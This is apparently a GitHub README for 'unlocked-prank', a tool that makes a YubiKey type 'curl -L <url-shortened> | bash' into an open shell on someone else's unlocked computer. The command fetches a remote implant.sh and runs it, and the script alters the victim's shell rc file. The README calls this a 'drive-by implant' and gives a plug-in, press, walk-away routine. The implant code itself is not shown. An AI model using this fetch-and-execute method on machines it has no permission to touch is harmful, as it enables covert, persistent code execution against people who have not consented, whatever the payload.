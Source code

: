 # unlocked-prank
A harmless prank for those poor buggers who leave their Linux or Mac machines unlocked.

** not yet finished, just here as a work in progress **

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl -L <url-shortened> | bash`

The URL shortener is used as the Yubikey has a limit of 64 characters in it's static password mode.  The shortened URL should point to

`https://raw.githubusercontent.com/auraltension/unlocked-prank/master/implant.sh`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
linux, and then the shell used by the user and implant a fun prank into their shell rc.

For your piece of mind I recommend checking my implant.sh, and probably forking and using your own copy as you probably don't want to trust my script being executed on other peoples machines.
